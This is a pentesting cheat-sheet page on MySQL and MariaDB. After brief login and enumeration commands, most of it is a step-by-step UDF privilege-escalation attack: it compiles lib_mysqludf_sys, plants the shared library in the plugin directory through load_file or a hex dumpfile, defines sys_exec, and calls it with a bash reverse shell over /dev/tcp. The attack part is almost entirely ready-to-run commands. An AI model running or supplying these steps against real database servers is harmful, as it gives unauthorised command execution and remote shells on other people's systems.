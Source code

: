 # MySQL / MariaDB

Basic CLI syntax:

```
$ mysql -h 127.0.0.1 -P 3306 -u snovvcrash -p'Passw0rd!' -e 'show databases;'
```

Basic enumeration:

```
mysql> show GRANTS;
mysql> select @@hostname, @@tmpdir, @@version, @@version_compile_machine, @@plugin_dir;
```




## UDF PrivEsc

* [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)
* [https://github.com/mysqludf/lib_mysqludf_sys](https://github.com/mysqludf/lib_mysqludf_sys)
* [https://gist.github.com/snovvcrash/efeb79d3e2648ec5009dd2ea7052f8b9](https://gist.github.com/snovvcrash/efeb79d3e2648ec5009dd2ea7052f8b9)

Install dependencies:

```
$ sudo apt install libmariadbclient-dev -y
$ git clone https://github.com/mysqludf/lib_mysqludf_sys && cd lib_mysqludf_sys
```

Compile `.so` library (x86 example):

```
$ sudo apt install libc6-dev-i386 -y
$ gcc lib_mysqludf_sys.c -o lib_mysqludf_sys_x86.so -m32 -Wl,--hash-style=both -fPIC -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/server/private -I. -shared -L/usr/lib/x86_64-linux-gnu/libstdc++.so.6
```

Compile `.so` library (x64 example):

```
$ gcc lib_mysqludf_sys.c -o lib_mysqludf_sys_x64.so -m64 -Wl,--hash-style=both -fPIC -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/server/private -I. -shared -L/usr/lib/x86_64-linux-gnu/libstdc++.so.6
```

Convert library to hex:

```
$ xxd -p lib_mysqludf_sys.so | tr -d '\n'
```

Load library and call user-defined `sys_exec` function with a rev-shell.

MySQL (x86 example):

```
mysql> use mysql;
mysql> create table pwn(line blob);
mysql> insert into pwn values(load_file('/tmp/lib_mysqludf_sys_x86.so'));
mysql> select * from pwn into dumpfile '/usr/lib/lib_mysqludf_sys_x86.so';

Or load it from hex:
mysql> set @pwn = '7F..00';
mysql> select unhex(@pwn) into dumpfile '/usr/lib/lib_mysqludf_sys_x86.so';

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_x86.so';
mysql> select sys_exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'");
```

MariaDB (x64 example):

```
MariaDB> show variables like '%plugin%';  # get lib path
MariaDB> use mysql;
MariaDB> create table pwn(line blob);
MariaDB> insert into pwn values(load_file('/tmp/lib_mysqludf_sys_x64.so'));
MariaDB> select * from pwn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys_x64.so';

Or load it from hex:
MariaDB> set @pwn = 0x7F..00;
MariaDB> select binary @pwn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys_x64.so';

MariaDB> create function sys_exec returns integer soname 'lib_mysqludf_sys_x64.so';
MariaDB> select sys_exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'");
```
